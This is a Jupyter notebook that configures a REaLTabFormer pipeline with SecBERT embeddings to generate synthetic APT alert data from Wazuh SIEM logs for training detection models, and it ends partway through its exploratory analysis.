# 🧬 REaLTabFormer: APT Data Augmentation Pipeline with SecBERT Embeddings

## Advanced Synthetic Data Generation for Wazuh Security Logs

This notebook implements **REaLTabFormer** (Realistic Tabular Data Generation using Transformers) for generating high-quality synthetic APT (Advanced Persistent Threat) data from Wazuh SIEM logs.

---

## 🏗️ Model Architecture Overview

### What is REaLTabFormer?

**RealTabFormer** is a state-of-the-art generative model for synthesizing high-quality tabular data. Built on the **GPT-2 (Generative Pre-trained Transformer 2)** architecture, it treats tabular data generation as a sequential modeling problem, where table rows are converted into token sequences. By leveraging the transformer's attention mechanisms, RealTabFormer effectively captures complex inter-column dependencies and statistical patterns within datasets, enabling it to generate realistic synthetic data that preserves the distributional properties and relationships of the original data. This makes it particularly valuable for data augmentation, privacy-preserving data sharing, and addressing data scarcity challenges in machine learning applications.
```
┌─────────────────────────────────────────────────────────────────────┐
│                    REaLTabFormer Architecture                        │
├─────────────────────────────────────────────────────────────────────┤
│                                                                      │
│   ┌──────────────┐      ┌──────────────────┐      ┌──────────────┐  │
│   │  Tabular     │ ───▶ │  Tokenization    │ ───▶ │   GPT-2      │  │
│   │  Row Data    │      │  "col1 is val1,  │      │   Decoder    │  │
│   │              │      │   col2 is val2"  │      │   Blocks     │  │
│   └──────────────┘      └──────────────────┘      └──────────────┘  │
│                                                          │           │
│                                                          ▼           │
│   ┌──────────────┐      ┌──────────────────┐      ┌──────────────┐  │
│   │  Synthetic   │ ◀─── │  De-tokenization │ ◀─── │  Autoregress │  │
│   │  Row Data    │      │  Back to Tabular │      │  Generation  │  │
│   └──────────────┘      └──────────────────┘      └──────────────┘  │
│                                                                      │
└─────────────────────────────────────────────────────────────────────┘
```

### Key Components:

1. **Tokenization Layer**: Converts each tabular row into a natural language-like sequence
   - Format: `"column1 is value1, column2 is value2, ..."`
   - Handles mixed data types (numeric, categorical, text)

2. **GPT-2 Transformer Backbone**: 
   - Multi-head self-attention mechanism learns column inter-dependencies
   - Captures complex correlations between features
   - 12 transformer blocks with 768-dimensional hidden states

3. **Autoregressive Generation**: 
   - Generates synthetic rows token-by-token
   - Maintains statistical coherence across columns

### 🔐 SecBERT Integration

We enhance REaLTabFormer with **SecBERT** (Security-domain BERT) embeddings for textual features:
- Pre-trained on cybersecurity corpus
- Captures security-specific semantics (attack patterns, commands, file paths)
- 768-dimensional dense embeddings

---

### 🆕 Enhanced Features:
- ✅ **SecBERT Embeddings** - Security-domain text embeddings for textual features
- ✅ **Feature Selection Integration** - Using top features from ML-based feature selection
- ✅ **Derived Features** - `cyber_kill_chain_summary` created from min(tactic, technique)
- ✅ **Complete Column Coverage** - 37+ features including audit, syscheck, SCA, and network data

### Column Categories:
1. **Target Variables**: `malicious`, `cyber_kill_chain_summary`
2. **Top Features (Feature Selection)**: `rule.level`, `firedtimes`, `decoder.name`, `location`, etc.
3. **Textual Features (SecBERT)**: `rule.description`, `data.command`
4. **MITRE ATT&CK**: `mitre.tactic`, `mitre.id`, `rule.groups`
5. **Audit Data**: `syscall`, `exe`, `command`, `uid`, `success`, etc.
6. **Syscheck (FIM)**: `event`, `path`, `perm_*`, `size_*`, `changed_attributes`
7. **SCA**: `check.result`, `failed`, `passed`, `score`
8. **Network**: `protocol`, `srcport`, `url`
9. **Boolean Flags**: `has_audit`, `has_syscheck`, `has_sca`, `has_network`

---
**Author:** APT Augmentation Pipeline  
**Framework:** REaLTabFormer (GPT-2) + SecBERT (Text Embeddings)  
**Data:** Wazuh SIEM Malicious Alerts

## 🔇 Warning Suppression Configuration

The cell below configures the environment to suppress verbose CUDA, TensorFlow, and Python warnings. This is essential for a cleaner notebook output, especially when working with GPU-accelerated deep learning frameworks.

**Key configurations:**
- **TensorFlow/CUDA Logging**: Suppressed to ERROR level only
- **gRPC/glog**: Silenced to prevent verbose network messages  
- **Python Warnings**: Filtered to hide deprecation and future warnings
- **Tokenizers Parallelism**: Disabled to prevent deadlocks in multiprocessing

In [1]:
# ============================================================================
# 🔇 ULTIMATE WARNING SUPPRESSION - RUN THIS FIRST!
# ============================================================================
import os
import sys
import warnings

# ===== CRITICAL: Set these BEFORE any CUDA/TF imports =====
os.environ['TF_CPP_MIN_LOG_LEVEL'] = '3'
os.environ['TF_ENABLE_ONEDNN_OPTS'] = '0'
os.environ['CUDA_VISIBLE_DEVICES'] = os.environ.get('CUDA_VISIBLE_DEVICES', '0,1')

# Suppress CUDA/cuDNN/cuBLAS registration warnings
os.environ['TF_FORCE_GPU_ALLOW_GROWTH'] = 'true'
os.environ['TF_GPU_THREAD_MODE'] = 'gpu_private'

# Suppress gRPC and glog
os.environ['GRPC_VERBOSITY'] = 'ERROR'
os.environ['GRPC_TRACE'] = ''
os.environ['GLOG_minloglevel'] = '3'

# Suppress absl (TensorFlow's logging library)
os.environ['ABSL_MIN_LOG_LEVEL'] = '3'

# Suppress tokenizers parallelism warnings
os.environ['TOKENIZERS_PARALLELISM'] = 'false'

# Disable JAX if not needed
os.environ['JAX_PLATFORMS'] = ''

# Python-level warnings
warnings.filterwarnings('ignore')
warnings.filterwarnings('ignore', category=DeprecationWarning)
warnings.filterwarnings('ignore', category=FutureWarning)
warnings.filterwarnings('ignore', category=UserWarning)

# Suppress Python warnings at the interpreter level
if not sys.warnoptions:
    warnings.simplefilter("ignore")

# Configure Python logging to ERROR only
import logging
logging.getLogger().setLevel(logging.ERROR)
logging.getLogger('absl').setLevel(logging.ERROR)
logging.getLogger('tensorflow').setLevel(logging.ERROR)
logging.getLogger('transformers').setLevel(logging.ERROR)

# ===== Now import TensorFlow/CUDA libraries =====
# This forces the imports to happen with all suppressions active
try:
    import tensorflow as tf
    tf.get_logger().setLevel('ERROR')
    tf.autograph.set_verbosity(0)
except ImportError:
    pass

print("✅ All warning suppressions activated")
print("   • CUDA/cuDNN/cuBLAS warnings suppressed")
print("   • TensorFlow logging disabled")
print("   • Python warnings filtered")


✅ All warning suppressions activated
   • CUDA/cuDNN/cuBLAS warnings suppressed
   • TensorFlow logging disabled
   • Python warnings filtered


## 📦 Section 1: Environment Setup & Installation

This section installs all required dependencies for the REaLTabFormer pipeline:

| Package | Purpose |
|---------|---------|
| `realtabformer` | Core library for tabular data generation using transformers |
| `pandas`, `numpy` | Data manipulation and numerical computing |
| `matplotlib`, `seaborn`, `plotly` | Visualization libraries |
| `scikit-learn`, `scipy` | Machine learning utilities and statistical tests |
| `torch` | PyTorch deep learning backend |
| `transformers` | Hugging Face library for GPT-2 and SecBERT |
| `sentence-transformers` | SecBERT embedding generation |

### GPU Requirements
- CUDA-enabled GPU recommended for faster training
- Minimum 8GB VRAM for default batch sizes
- Training time: ~30-60 minutes on modern GPU

In [3]:
# ============================================================================
# 📦 INSTALL REQUIRED PACKAGES
# ============================================================================
# Run this cell first to install all dependencies

# Suppress CUDA/TensorFlow warnings (MUST be before any imports)
import os
os.environ["WANDB_DISABLED"] = "true"
os.environ['TF_CPP_MIN_LOG_LEVEL'] = '3'  # Suppress TF logging
os.environ['TF_ENABLE_ONEDNN_OPTS'] = '0'  # Disable oneDNN
os.environ['CUDA_VISIBLE_DEVICES'] = os.environ.get('CUDA_VISIBLE_DEVICES', '0')
os.environ['GRPC_VERBOSITY'] = 'ERROR'
os.environ['GLOG_minloglevel'] = '3'

# Suppress absl logging
import logging
logging.getLogger('absl').setLevel(logging.ERROR)

import subprocess
import sys
import warnings
warnings.filterwarnings('ignore')

def install_package(package):
    """Install package if not already installed"""
    try:
        __import__(package.split('[')[0].split('==')[0])
        print(f"✅ {package} already installed")
    except ImportError:
        print(f"📦 Installing {package}...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", "-q", package])
        print(f"✅ {package} installed successfully")

# Core packages
packages = [
    "realtabformer",        # Main library for tabular generation
    "pandas",
    "numpy",
    "matplotlib",
    "seaborn",
    "scikit-learn",
    "scipy",
    "tqdm",
    "plotly",
    "torch",                # PyTorch backend
    "transformers",         # Hugging Face transformers + SecBERT
    "openpyxl",
    "sentence-transformers", # For SecBERT embeddings
]

print("=" * 60)
print("🔧 INSTALLING DEPENDENCIES")
print("=" * 60)

for pkg in packages:
    install_package(pkg)

print("\n" + "=" * 60)
print("✅ ALL PACKAGES INSTALLED SUCCESSFULLY")
print("=" * 60)

🔧 INSTALLING DEPENDENCIES
✅ realtabformer already installed
✅ pandas already installed
✅ numpy already installed
✅ matplotlib already installed
✅ seaborn already installed
📦 Installing scikit-learn...
✅ scikit-learn installed successfully
✅ scipy already installed
✅ tqdm already installed
✅ plotly already installed
✅ torch already installed
✅ transformers already installed
✅ openpyxl already installed
📦 Installing sentence-transformers...
✅ sentence-transformers installed successfully

✅ ALL PACKAGES INSTALLED SUCCESSFULLY


### 📚 Import Libraries

The cell below imports all necessary libraries and verifies:
- **System Information**: PyTorch version, device (CPU/GPU), GPU memory
- **SecBERT Availability**: Checks if sentence-transformers is available for security embeddings
- **Random Seeds**: Sets reproducible seeds for consistent results

In [2]:
# ============================================================================
# 📚 IMPORT LIBRARIES
# ============================================================================
import os
import warnings
warnings.filterwarnings('ignore')

import json
import pickle
from datetime import datetime
from pathlib import Path

# Data manipulation
import pandas as pd
import numpy as np

# Visualization
import matplotlib.pyplot as plt
import seaborn as sns
import plotly.express as px
import plotly.graph_objects as go
from plotly.subplots import make_subplots

# Machine Learning & Statistics
from sklearn.preprocessing import LabelEncoder, StandardScaler
from sklearn.decomposition import PCA
from sklearn.manifold import TSNE
from sklearn.model_selection import train_test_split
from sklearn.ensemble import RandomForestClassifier
from sklearn.metrics import classification_report, accuracy_score
from scipy import stats
from scipy.stats import ks_2samp, chi2_contingency

# Progress bars
from tqdm.auto import tqdm

# REaLTabFormer
from realtabformer import REaLTabFormer

# PyTorch
import torch

# SecBERT for text embeddings
try:
    from sentence_transformers import SentenceTransformer
    SECBERT_AVAILABLE = True
    print("✅ SentenceTransformers (SecBERT) available")
except ImportError:
    SECBERT_AVAILABLE = False
    print("⚠️ SentenceTransformers not available - will skip text embeddings")

# Set random seeds for reproducibility
RANDOM_SEED = 42
np.random.seed(RANDOM_SEED)
torch.manual_seed(RANDOM_SEED)

# Check GPU availability
device = "cuda" if torch.cuda.is_available() else "cpu"
print("=" * 60)
print("🖥️ SYSTEM INFORMATION")
print("=" * 60)
print(f"   • PyTorch version: {torch.__version__}")
print(f"   • Device: {device.upper()}")
if device == "cuda":
    print(f"   • GPU: {torch.cuda.get_device_name(0)}")
    print(f"   • GPU Memory: {torch.cuda.get_device_properties(0).total_memory / 1e9:.2f} GB")
print(f"   • Random Seed: {RANDOM_SEED}")
print(f"   • SecBERT Available: {SECBERT_AVAILABLE}")
print("=" * 60)

✅ SentenceTransformers (SecBERT) available
🖥️ SYSTEM INFORMATION
   • PyTorch version: 2.2.1+cu118
   • Device: CUDA
   • GPU: NVIDIA GeForce RTX 2060 SUPER
   • GPU Memory: 8.59 GB
   • Random Seed: 42
   • SecBERT Available: True


### ⚙️ Configuration & Feature Engineering Pipeline

The configuration cell below defines the complete pipeline parameters and **Feature Selection** strategy.

---

## 🔬 Feature Selection & Engineering Methodology

Our feature selection is based on **multi-model importance analysis** using:
1. **Random Forest** feature importance
2. **XGBoost** gain-based importance  
3. **LightGBM** split-based importance
4. **Permutation Importance** (model-agnostic)
5. **Mutual Information** (information-theoretic)

### 📊 Selected Feature Categories:

```
┌────────────────────────────────────────────────────────────────────┐
│                    Feature Selection Pipeline                       │
├────────────────────────────────────────────────────────────────────┤
│                                                                     │
│  ┌─────────────────┐    ┌─────────────────┐    ┌────────────────┐  │
│  │ Raw Wazuh Data  │───▶│ Feature         │───▶│ Top Features   │  │
│  │ (100+ columns)  │    │ Importance      │    │ (37 selected)  │  │
│  └─────────────────┘    │ Analysis        │    └────────────────┘  │
│                         │ • RF, XGB, LGB  │                        │
│                         │ • Permutation   │                        │
│                         │ • Mutual Info   │                        │
│                         └─────────────────┘                        │
│                                                                     │
│  ┌─────────────────────────────────────────────────────────────┐   │
│  │ FEATURE GROUPS:                                              │   │
│  │ • 🎯 Targets: malicious, cyber_kill_chain_summary           │   │
│  │ • 🔴 Top Features: rule.level (#1), firedtimes (#2)...      │   │
│  │ • 📝 Textual: rule.description, data.command (→ SecBERT)    │   │
│  │ • 🔗 MITRE ATT&CK: tactic, technique, id                    │   │
│  │ • 📊 Audit: syscall, exe, uid, success                      │   │
│  │ • 📁 Syscheck: event (#1 for CKC), path, permissions        │   │
│  │ • 🔒 SCA: check.result, failed, passed, score               │   │
│  │ • 🌐 Network: protocol, srcip, srcport, url                 │   │
│  │ • 🏷️ Boolean Flags: has_audit, has_syscheck, has_sca...     │   │
│  └─────────────────────────────────────────────────────────────┘   │
└────────────────────────────────────────────────────────────────────┘
```

### 🎯 Feature Importance Rankings:

| Rank | Malicious Detection | CKC Stage Prediction |
|------|---------------------|----------------------|
| #1 | `_source.rule.level` | `_source.syscheck.event` |
| #2 | `_source.decoder.name` | `_source.rule.firedtimes` |
| #3 | `_source.location` | `_source.syscheck.path` |
| #4 | `_source.location` | `_source.rule.level` |
| #5 | `_source.rule.firedtimes` | `_source.decoder.name` |

### 🔧 Derived Features:

- **`cyber_kill_chain_summary`**: Created from `min(tactic_stage, technique_stage)` - captures the earliest CKC phase
- **Boolean Flags**: `has_audit`, `has_syscheck`, `has_sca`, `has_network` - indicate data presence for sparse columns

In [3]:
# ============================================================================
# ⚙️ CONFIGURATION
# ============================================================================

from datetime import datetime
import os

# Detect environment (Kaggle vs Local)
if os.path.exists('/kaggle/input'):
    PARENT_DIR = '/kaggle/input/datasets/yacinenaouicw/maliciousaptdata'
    WORKING_PARENT_DIR = '/kaggle/working'
    DATA_PATH = os.path.join(PARENT_DIR,'malicious_realtabformer_filtered.xlsx')
else:
    PARENT_DIR = r'c:\Users\KassoussiOussama-PFE\Downloads\pfe'
    WORKING_PARENT_DIR = r'c:\Users\KassoussiOussama-PFE\Downloads\pfe'
    DATA_PATH = os.path.join(PARENT_DIR, 'malicious_realtabformer_filtered.xlsx')

CONFIG = {
    'data_path': DATA_PATH,
    'output_dir': os.path.join(WORKING_PARENT_DIR, 'realtabformer_output'),
    'checkpoints_dir': os.path.join(WORKING_PARENT_DIR, 'realtabformer_checkpoints'),
    'backup_dir': os.path.join(WORKING_PARENT_DIR, 'final_model'),
    
    # REaLTabFormer parameters
    'model_type': 'tabular',
    'epochs': 150,
    'batch_size': 32,
    'train_size': 0.95,
    'gradient_accumulation_steps': 4,
    'logging_steps': 100,
    'save_steps': 500,
    'random_seed': 42,
    'experiment_id': f"apt_augmentation_{datetime.now().strftime('%Y%m%d_%H%M%S')}",
    
    # Generation parameters
    'synthetic_ratio': 2.0,
    'generation_batch_size': 256,
    
    # Quality thresholds
    'ks_threshold': 0.3,
    'l1_threshold': 0.3,
    
    # Device settings
    'device': 'cuda' if torch.cuda.is_available() else 'cpu',
    
    # SecBERT settings
    'secbert_model': 'jackaduma/SecBERT',  # Security-domain BERT
    'embedding_dim': 768,  # SecBERT embedding dimension
    'use_secbert': True,   # Enable SecBERT embeddings for text
}

# ============================================================================
# 📋 FINAL FEATURE LIST (From Feature Selection + Your Requirements)
# ============================================================================

REALTABFORMER_COLUMNS = [
    # ═══════════════════════════════════════════════════════════════════════
    # 🎯 TARGET VARIABLES
    # ═══════════════════════════════════════════════════════════════════════
    'malicious',
    'cyber_kill_chain_summary',  # Derived from min(tactic, technique)
    
    # ═══════════════════════════════════════════════════════════════════════
    # 🔴 TOP FEATURES FROM FEATURE SELECTION (MUST HAVE!)
    # ═══════════════════════════════════════════════════════════════════════
    '_source.rule.level',              # #1 Malicious detection
    '_source.rule.firedtimes',         # #2 CKC, #5 Malicious
    '_source.decoder.name',            # #2 Malicious detection
    '_source.location',                # #3, #4 Malicious
    '_source.@timestamp',              # Temporal patterns
    '_source.data.srcip',              # #6 Malicious
    '_source.syscheck.md5_after',      # #9 Malicious
    '_source.syscheck.sha256_after',   # #10 Malicious
    
    # ═══════════════════════════════════════════════════════════════════════
    # 📝 TEXTUAL FEATURES (SecBERT embeddings will be applied!)
    # ═══════════════════════════════════════════════════════════════════════
    '_source.rule.description',        # Rule text description
    '_source.data.command',            # #7 Malicious (command patterns)
    
    # ═══════════════════════════════════════════════════════════════════════
    # 🔗 MITRE ATT&CK FEATURES
    # ═══════════════════════════════════════════════════════════════════════
    '_source.rule.mitre.tactic',
    '_source.rule.mitre.id',
    '_source.rule.groups',
    
    # ═══════════════════════════════════════════════════════════════════════
    # 📊 AUDIT DATA (behavioral patterns)
    # ═══════════════════════════════════════════════════════════════════════
    '_source.data.audit.syscall',
    '_source.data.audit.exe',
    '_source.data.audit.command',
    '_source.data.audit.uid',
    '_source.data.audit.euid',
    '_source.data.audit.gid',
    '_source.data.audit.auid',
    '_source.data.audit.success',
    
    # ═══════════════════════════════════════════════════════════════════════
    # 📁 SYSCHECK - FILE INTEGRITY (#1 for CKC Stage!)
    # ═══════════════════════════════════════════════════════════════════════
    '_source.syscheck.event',          # #1 CKC Stage!
    '_source.syscheck.path',           # Top 10 CKC
    '_source.syscheck.perm_before',
    '_source.syscheck.perm_after',
    '_source.syscheck.size_before',
    '_source.syscheck.size_after',
    '_source.syscheck.changed_attributes',
    
    # ═══════════════════════════════════════════════════════════════════════
    # 🔒 SCA (Security Configuration Assessment)
    # ═══════════════════════════════════════════════════════════════════════
    '_source.data.sca.check.result',
    '_source.data.sca.failed',
    '_source.data.sca.passed',
    '_source.data.sca.score',
    
    # ═══════════════════════════════════════════════════════════════════════
    # 🌐 NETWORK DATA
    # ═══════════════════════════════════════════════════════════════════════
    '_source.data.protocol',
    '_source.data.srcport',
    '_source.data.url',
    
    # ═══════════════════════════════════════════════════════════════════════
    # 🏷️ BOOLEAN FLAGS (meta-features)
    # ═══════════════════════════════════════════════════════════════════════
    'has_audit',
    'has_syscheck',
    'has_sca',
    'has_network',
]

# Columns needed to create cyber_kill_chain_summary (but won't be kept in final)
CKC_SOURCE_COLUMNS = ['cyber_kill_chain_tactic', 'cyber_kill_chain_technique']

# Columns for boolean flag creation
AUDIT_INDICATOR_COLS = ['_source.data.audit.syscall', '_source.data.audit.exe', '_source.data.audit.command']
SYSCHECK_INDICATOR_COLS = ['_source.syscheck.event', '_source.syscheck.path']
SCA_INDICATOR_COLS = ['_source.data.sca.check.result', '_source.data.sca.failed']
NETWORK_INDICATOR_COLS = ['_source.data.protocol', '_source.data.srcip', '_source.data.url']

# Textual columns that need SecBERT embeddings
TEXTUAL_COLUMNS = [
    '_source.rule.description',
    '_source.data.command',
    '_source.data.audit.command',
    '_source.data.audit.exe',
    '_source.syscheck.path',
    '_source.data.url',
]

# Create directories
os.makedirs(CONFIG['output_dir'], exist_ok=True)
os.makedirs(CONFIG['checkpoints_dir'], exist_ok=True)
os.makedirs(CONFIG['backup_dir'], exist_ok=True)

print("=" * 70)
print("⚙️ CONFIGURATION")
print("=" * 70)
for key, value in CONFIG.items():
    if not isinstance(value, (list, dict)):
        print(f"   • {key}: {value}")
print(f"\n📋 Features configured: {len(REALTABFORMER_COLUMNS)} columns")
print(f"📝 Textual columns (SecBERT): {len(TEXTUAL_COLUMNS)}")
print("=" * 70)

# ============================================================================
# 📋 STRATIFIED SOURCE TYPE DEFINITIONS
# ============================================================================
# The malicious APT data comes from 4 distinct log sources.
# Each source only populates its own columns — causing ~58% structural missingness.
# We train one model per source type so each model sees dense, relevant data.

UNIVERSAL_COLS = [
    'malicious',
    '_source.rule.level',
    '_source.rule.groups',
    '_source.decoder.name',
    '_source.rule.mitre.tactic',
    '_source.rule.mitre.id',
    'cyber_kill_chain_tactic',
    'cyber_kill_chain_technique',
    '_source.rule.mitre.technique',
]

NETWORK_COLS = ['_source.data.protocol', '_source.data.srcip', '_source.data.url']
SYSCHECK_COLS = ['_source.syscheck.event', '_source.syscheck.path',
                 '_source.syscheck.perm_after', '_source.syscheck.size_after']
SCA_COLS = ['_source.data.sca.check.result',
            '_source.data.sca.check.compliance.mitre_tactics',
            '_source.data.sca.check.compliance.mitre_techniques']
AUDIT_COLS = ['_source.data.audit.syscall', '_source.data.audit.exe',
              '_source.data.audit.command', '_source.data.audit.uid',
              '_source.data.audit.euid', '_source.data.audit.gid',
              '_source.data.audit.auid', '_source.data.audit.success']

# Columns too sparse even within their own source type (<5% fill) — dropped
DROPPED_COLS = ['_source.syscheck.perm_before', '_source.syscheck.size_before',
                '_source.data.sca.failed', '_source.data.sca.passed',
                '_source.data.sca.score', '_source.data.srcport']

SOURCE_TYPES = {
    'network':  {'cols': NETWORK_COLS,  'detect': ['_source.data.protocol', '_source.data.srcip', '_source.data.url']},
    'syscheck': {'cols': SYSCHECK_COLS, 'detect': ['_source.syscheck.event', '_source.syscheck.path']},
    'sca':      {'cols': SCA_COLS,      'detect': ['_source.data.sca.check.result']},
    'audit':    {'cols': AUDIT_COLS,     'detect': ['_source.data.audit.syscall', '_source.data.audit.exe']},
}

print(f"\n📋 STRATIFIED SOURCE TYPES:")
print(f"   Universal cols:   {len(UNIVERSAL_COLS)}")
print(f"   Network cols:     {len(NETWORK_COLS)}")
print(f"   Syscheck cols:    {len(SYSCHECK_COLS)}")
print(f"   SCA cols:         {len(SCA_COLS)}")
print(f"   Audit cols:       {len(AUDIT_COLS)}")
print(f"   Dropped (sparse): {len(DROPPED_COLS)}")


⚙️ CONFIGURATION
   • data_path: c:\Users\KassoussiOussama-PFE\Downloads\pfe\malicious_realtabformer_filtered.xlsx
   • output_dir: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_output
   • checkpoints_dir: c:\Users\KassoussiOussama-PFE\Downloads\pfe\realtabformer_checkpoints
   • backup_dir: c:\Users\KassoussiOussama-PFE\Downloads\pfe\final_model
   • model_type: tabular
   • epochs: 150
   • batch_size: 32
   • train_size: 0.95
   • gradient_accumulation_steps: 4
   • logging_steps: 100
   • save_steps: 500
   • random_seed: 42
   • experiment_id: apt_augmentation_20260308_132611
   • synthetic_ratio: 2.0
   • generation_batch_size: 256
   • ks_threshold: 0.3
   • l1_threshold: 0.3
   • device: cuda
   • secbert_model: jackaduma/SecBERT
   • embedding_dim: 768
   • use_secbert: True

📋 Features configured: 41 columns
📝 Textual columns (SecBERT): 6

📋 STRATIFIED SOURCE TYPES:
   Universal cols:   9
   Network cols:     3
   Syscheck cols:    4
   SCA cols:         3
   Aud

## 📂 Section 2: Data Loading & Exploration

This section handles:
1. **Data Loading**: Reads the Wazuh malicious alerts dataset (Excel/CSV format)
2. **Derived Column Creation**: Computes `cyber_kill_chain_summary` from tactic/technique stages
3. **Boolean Flag Generation**: Creates `has_audit`, `has_syscheck`, `has_sca`, `has_network` indicators
4. **Column Selection**: Filters to only the 37 pre-selected features

### 📊 Data Sources:
- **Primary**: Wazuh SIEM malicious alerts with MITRE ATT&CK mappings
- **Format**: Excel (`.xlsx`) with enriched security event data

### 🔧 Preprocessing Steps in this Section:
```
Raw Data (100+ cols) → Feature Selection (37 cols) → Derived Features → Boolean Flags → Final Dataset
```

In [5]:
# ============================================================================
# 📂 LOAD & CLEAN DATA + CLASSIFY SOURCE TYPES
# ============================================================================

print("=" * 70)
print("📂 LOADING & CLEANING DATA")
print("=" * 70)

# Load data
possible_paths = [
    CONFIG['data_path'],
    '/kaggle/input/datasets/yacinenaouicw/maliciousaptdata/malicious_realtabformer_filtered.xlsx',
    os.path.join(os.path.dirname(CONFIG['data_path']), 'malicious_realtabformer.xlsx'),
]

raw_data = None
for path in possible_paths:
    if os.path.exists(path):
        print(f"   📁 Found: {path}")
        raw_data = pd.read_excel(path, sheet_name='Sheet1') if path.endswith('.xlsx') else pd.read_csv(path, low_memory=False)
        CONFIG['data_path'] = path
        break

if raw_data is None:
    raise FileNotFoundError(f"Data not found. Tried: {possible_paths}")

print(f"   Loaded: {raw_data.shape[0]:,} rows × {raw_data.shape[1]} columns")

# ── Step 1: Clean disguised missing values ──
space_count = 0
for col in raw_data.select_dtypes(include='object').columns:
    mask = raw_data[col].isin([' ', '  ', ''])
    space_count += mask.sum()
    raw_data.loc[mask, col] = np.nan

print(f"   Cleaned {space_count:,} disguised missing values (space/empty → NaN)")

# ── Step 2: Classify rows by log source type ──
raw_data['_source_type'] = 'base'

for stype, info in SOURCE_TYPES.items():
    detect_cols = [c for c in info['detect'] if c in raw_data.columns]
    if detect_cols:
        mask = raw_data[detect_cols].notna().any(axis=1)
        raw_data.loc[mask, '_source_type'] = stype

source_counts = raw_data['_source_type'].value_counts()
print(f"\n📊 SOURCE TYPE DISTRIBUTION:")
for stype, count in source_counts.items():
    pct = count / len(raw_data) * 100
    print(f"   {stype:>10}: {count:>6,} rows ({pct:>5.1f}%)")

# ── Step 3: Verify fill rates within each source ──
print(f"\n🔍 FILL RATE VERIFICATION (within each source type):")
for stype, info in SOURCE_TYPES.items():
    subset = raw_data[raw_data['_source_type'] == stype]
    if len(subset) == 0:
        continue
    existing = [c for c in info['cols'] if c in raw_data.columns]
    print(f"\n   {stype.upper()} ({len(subset):,} rows):")
    for col in existing:
        fill = subset[col].notna().mean() * 100
        status = '✅' if fill > 80 else '⚠️' if fill > 50 else '❌'
        print(f"      {status} {col}: {fill:.1f}% filled")

print("\n" + "=" * 70)


📂 LOADING & CLEANING DATA
   📁 Found: c:\Users\KassoussiOussama-PFE\Downloads\pfe\malicious_realtabformer_filtered.xlsx
   Loaded: 25,418 rows × 37 columns
   Cleaned 53,435 disguised missing values (space/empty → NaN)

📊 SOURCE TYPE DISTRIBUTION:
      network: 18,920 rows ( 74.4%)
     syscheck:  2,862 rows ( 11.3%)
         base:  2,601 rows ( 10.2%)
          sca:    870 rows (  3.4%)
        audit:    165 rows (  0.6%)

🔍 FILL RATE VERIFICATION (within each source type):

   NETWORK (18,920 rows):
      ✅ _source.data.protocol: 98.8% filled
      ✅ _source.data.srcip: 100.0% filled
      ✅ _source.data.url: 98.8% filled

   SYSCHECK (2,862 rows):
      ✅ _source.syscheck.event: 100.0% filled
      ✅ _source.syscheck.path: 100.0% filled
      ✅ _source.syscheck.perm_after: 100.0% filled
      ✅ _source.syscheck.size_after: 100.0% filled

   SCA (870 rows):
      ✅ _source.data.sca.check.result: 100.0% filled

   AUDIT (165 rows):
      ✅ _source.data.audit.syscall: 100.0% filled
  

### 📊 Exploratory Data Analysis

The visualization below shows data completeness across all selected features:
- **Left Plot**: Distribution of non-null percentages (histogram)
- **Right Plot**: All columns sorted by data completeness

**Color Coding:**
- 🟢 Green: ≥50% complete (high quality)
- 🟠 Orange: 20-50% complete (moderate)
- 🔴 Red: <20% complete (sparse but valuable for specific patterns)

📊 EXPLORATORY DATA ANALYSIS





📈 COMPLETENESS SUMMARY (Selected Features):
   • Columns with 100% data: 8
   • Columns with ≥50% data: 14
   • Columns with ≥20% data: 14
   • Total selected: 37


In [6]:
# ============================================================================
# 📊 EXPLORATORY DATA ANALYSIS
# ============================================================================

print("=" * 70)
print("📊 EXPLORATORY DATA ANALYSIS")
print("=" * 70)

# Use raw_data (available after cell 10) — df is created later during stratified preprocessing
df_eda = raw_data.drop(columns=['_source_type'], errors='ignore')

# Calculate missing values for selected columns
missing_pct = (df_eda.isnull().sum() / len(df_eda) * 100).sort_values(ascending=False)
non_null_pct = 100 - missing_pct

# Visualize missing values distribution
fig, axes = plt.subplots(1, 2, figsize=(16, 6))

